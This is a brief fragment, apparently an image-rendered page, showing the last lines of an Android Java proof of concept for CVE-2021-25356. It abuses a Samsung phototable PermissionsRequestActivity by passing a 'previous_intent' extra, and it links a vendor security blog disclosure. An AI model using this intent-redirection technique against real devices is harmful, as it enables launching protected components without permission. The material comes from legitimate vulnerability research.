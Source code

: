```
       i.setClassName("com.android.dreams.phototable", "com.android.dreams.phototable.PermissionsRequestActivity");
       i.putExtra("previous_intent", next);
       i.putExtra("permission_list", new String[0]);
       startActivity(i);
   }
}
```

[from](https://blog.oversecured.com/Two-weeks-of-securing-Samsung-devices-Part-1/)




原文链接： [https://www.ddosi.org/cve-2021-25356/]( https://www.ddosi.org/cve-2021-25356/)

